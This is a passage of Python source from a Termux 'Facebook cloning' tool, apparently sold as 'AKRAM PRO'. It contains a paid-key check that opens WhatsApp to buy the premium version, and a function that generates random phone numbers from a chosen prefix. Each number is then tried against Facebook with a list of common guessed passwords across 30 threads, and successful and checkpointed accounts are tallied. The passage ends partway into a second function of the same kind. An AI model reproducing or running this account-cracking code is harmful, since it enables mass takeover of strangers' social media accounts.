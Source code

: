                         print("\033[1;36m We Not Responsible if facebook\n go on update you not get ok idz\n We don't responsible if you delete your \n termux and key need approve\033[1;37m")
                        linex()
                        print(' \033[1;31mYour Key Not Registered\033[1;37m')
                        print(f" \033[1;37mYour Key : {fkeyx}")
                        linex();print (" Tools.. : Facebook Cloning");print (" Massage : Your Key Not Registered");print (" Status  : \033[1;91mTrail\033[1;37m\n \033[1;31m\033[1;42mNote: If You Are Free User Don't Come IB\033[0;0m");linex();print(' [+] File crack\n [+] Create ids file\n [+] Public crack\n [+] Random number crack\n [+] Random gmail crack\n [+] Exit menu\n\x1b[1;97m [1] Upgrade Tool To (\x1b[1;95mPremium\x1b[1;37m)')
                        linex()
                        input(" Choose Option : ")
                        linex()
                        print(" Your Subscription Date Expire")
                        linex()
                        url_wa = "https://api.whatsapp.com/send?phone=+9203077515885&text="
                        name = input(" Enter your Name : ")
                        linex()
                        tks = ("Hi Usman Sir, I Need To Buy Your Paid AKRAM PRO Tools Version 1.Premium Please Accept My Key To Premium :)\n\n Name :- "+name+"\n Key :- "+fkeyx)
                        subprocess.check_output(["am", "start", url_wa+(tks)]);time.sleep(2)
                        print(' Run :  python akram.py')
                        exit()
        except ValueError:
                exit()
        except requests.exceptions.ConnectionError:
                print('\n No internet connection ...')
                exit()
def pak():
                user=[]
                clear()
                print('\033[1;31m Code example: 0306,0315,0335,0345')
                code = input('\033[1;37m put code: ')
                try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as usman:     
                        clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan','khan1122','khan12345','khan1234','khan12','khan786','khan123','khan123456','khankhan123','786786']
                                usman.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python akram.py')
def bd():
                user=[]
                clear()
                print('\033[1;31m Code example: 016,017,018,019')
                code = input('\033[1;37m put code: ')